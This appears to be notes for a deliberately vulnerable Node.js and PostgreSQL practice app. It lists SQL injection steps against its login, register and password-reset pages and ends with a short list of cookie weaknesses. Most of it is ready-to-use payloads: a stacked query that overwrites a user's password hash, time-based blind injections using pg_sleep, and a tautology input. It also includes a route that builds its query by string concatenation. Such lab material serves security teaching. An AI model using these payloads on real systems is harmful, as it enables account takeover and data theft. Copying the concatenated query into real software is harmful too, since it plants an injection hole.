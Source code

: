  

## SQL Injection Steps

* Bypass login function with sql injection
 - The following can be used to guess a password, but you can change the query accordingly
 ```
 /login password field, replaces your hash!
 test'; INSERT INTO users (username,password) VALUES ('test', '$2y$10$x6PXZnQoodybWH/kmtwEQeKf7PasRSGvb7zaEQ.y0xGFrbntiUqpW') ON CONFLICT (username) DO UPDATE SET password='$2y$10$x6PXZnQoodybWH/kmtwEQeKf7PasRSGvb7zaEQ.y0xGFrbntiUqpW';--
 ```
 - Possible variation assuming we DON'T know the name of the password field.
```
test'; SELECT CASE WHEN ((SELECT password from users where username='admin'))='admin1' THEN (select pg_sleep(5)) ELSE NULL END;--
``` 

* Try a blind scenario to get the DB name
- If your database name is "postgres" this will work otherwise use something like intruder to build out the query and dump the db name based on time responses

```
/register username field
johnny','test'); SELECT CASE WHEN (SUBSTR((SELECT current_database()),1,1))='a' THEN (select pg_sleep(3)) ELSE NULL END;--
```
 - Read Jakes blog about safe sql injection!

* Set up a reflected scenario that will print SQL results to you in the UI and get info from it

```
/forgot
router.post('/forgot', async function(req, res, next) {
  console.log(`SELECT * from users where username='${req.body.username}';`);
  var db_response = await client.query(`SELECT * from users where username='${req.body.username}';`);
  console.log(db_response);
  var username_return = '';
  db_response.rows.forEach(element => username_return+=element.username);
  res.render('forgot_valid',{user:username_return});
});
```
Try and send a password reset for username `' OR '1'='1`


 SELECT current_database()

 test'; SELECT CASE WHEN ((SELECT password from users where username='admin'))='admin1' THEN (select pg_sleep(5)) ELSE NULL END;--

 ## Cookie vulns

 * Current cookie creation does not implement sufficient entropy, thus the cookies are brute forceable 
 * No current methods for session destruction client/serverside 